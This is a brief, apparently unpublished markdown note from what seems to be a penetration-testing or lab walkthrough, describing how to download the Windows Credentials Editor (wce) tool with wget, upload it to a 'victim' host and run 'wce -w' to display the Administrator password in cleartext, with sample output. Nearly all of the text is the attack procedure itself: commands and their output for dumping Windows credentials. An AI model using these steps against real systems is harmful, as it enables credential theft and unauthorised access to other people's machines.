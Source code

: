 ```yaml
---
published: false
---
```



Download wce

    cd /opt/
    wget http://www.ampliasecurity.com/research/wce_v1_41beta_universal.zip
    unzip wce_v1_41beta_universal.zip -d wce

Upload wce.exe to victim

**Victim**:  Execute wce.  Administrator password displayed in the clear

    C:\Documents and Settings\Administrator\My Documents>wce -w
    wce -w
    WCE v1.41beta (Windows Credentials Editor) - (c) 2010-2013 Amplia Security -     by Hernan Ochoa (hernan@ampliasecurity.com)
    Use -h for help.

    Administrator\RALPH:_<password>_
    RALPH$\THINC.LOCAL:
